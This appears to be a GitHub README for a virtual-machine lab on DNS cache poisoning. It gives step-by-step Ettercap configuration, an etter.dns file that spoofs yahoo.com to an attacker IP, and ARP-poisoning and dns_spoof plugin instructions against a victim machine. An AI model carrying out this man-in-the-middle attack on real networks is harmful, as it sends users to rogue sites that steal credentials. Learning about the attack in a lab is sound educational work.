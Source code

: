 # dns-cache-poisoning

DNS cache poisoning is a vulnerability used by the attackers to replace the DNS response with forged DNS response that direct the request to attacker’s website. Usually this is used for pharming user are unknowing made to download malicious code or provide credentials which is then an accessed by attackers. The DNS server doesn’t verify the cache. Therefore, the forged response remains in the DNS until the TTL is expired. The DNS cache poisoning will not affect the real site corresponding to the IP address but the response from that DNS will lead user to rogue website


## REQUIREMENTS

1. virtual box
2. Two virtual machines 

      . we are using kali machine for attacking and windows machine as victim
      
3. Ettercap Application
4. Apache Server
5. IpTables

## How to install requirements

1. Installing virtual box

     . visit https://www.virtualbox.org/wiki/Downloads and download according to the operating system
        
        
2. Download and install kali machine 64 bit on virtual box using the link provided

     . https://kali.download/virtual-images/kali-2022.1/kali-linux-2022.1-virtualbox-amd64.ova
       follows instruction in the site to install kali machine on virtual box
       https://itsfoss.com/install-kali-linux-virtualbox/
        
3. Installing ettercap on kali
     use below command to install Ettercap application
     
        sudo apt-get install ettercap
        
4. installing apache server
     use following command to install apache server on kali
        
        sudo apt-get install apache2
                
5. install Iptable
     use following command to install iptables on kali
     
        sudo apt-get install iptables
       
# Getting Ready


### Configuring
      
                 
##### Edit Ettercap configuration file
                 
             

We now need to edit the Ettercap configuration file since it is our application of choice for today.
Let's navigate to /etc/ettercap/etter.conf and open the file with a text editor like leafpad and edit the file. 
We can use following command for that.

        leafpad /etc/ettercap/etter.conf

So now we want to edit the uid and gid values at the top to make them say 0 so go ahead and do that.


       ############################################################################

        [privs]
        ec_uid = 0               # nobody is the default
        ec_gid = 0               # nobody is the default

        [mitm]
        arp_storm_delay = 10          # milliseconds
        arp_poison_smart = 0          # boolean

Now scroll down until you find the heading that says Linux and under that remove both the # signs for the sections below where it says "Linux".



        #---------------
        #     Linux 
        #---------------

           redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
           redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"

        # pendant for IPv6 - Note that you need iptables v1.4.16 or newer to use IPv6 redirect
           redir6_command_on = "ip6tables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
           redir6_command_off = "ip6tables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"

##### Edit Ettercap.dns file

  Edit the domain name to spoof and  edit the IP address to attackers IP address and save the file

        #                                                                          #
        # Sample hosts file for dns_spoof plugin                                   #
        #                                                                          #
        # the format is (for A query):                                             #
         *yahoo.com 		A	 172.20.10.4
         www.yahoo.com 		A	 172.20.10.4
         *.yahoo.com		A	 172.20.10.4	
        #
        #   *.foo.com          A 168.44.55.66 [optional TTL]                       #
        #      
        
##### Run ettercap application

   use folowing command to run Ettercap application from terminal
   
        ettercap -G
        
 1. choose primary interface and click accept on top right corner
 2. click on threen dots on top right to select options
        select Hosts --> Scan for Hosts     
        this will scan for the available devices connected to the network and save it to Hosts List
 3. click on threen dots on top right to select options
        select Hosts --> Hosts List
        it will list the hosts in network found on previous scanning step
 4. Select the victim's IP address and add it to target1 by clicking on "Add to Target1"
 5. select the DNS IP address and add it to target2 by clicking on "Add to Target2"
 6. now Click on Ettercap Menu and select Plugins --> Manage Plugins
        select dns_spoof. now right click and activate plugin
 7. click on man in the MITM Menu on top right corner near Ettercap Menu and select ARP Poisoning. click OK 


#### testing

All set now try accessng the website from victim's Machine.
it'll be redirected to the ip address specified in the etter.dns file

we can use the chk_poison to validate the poisoning

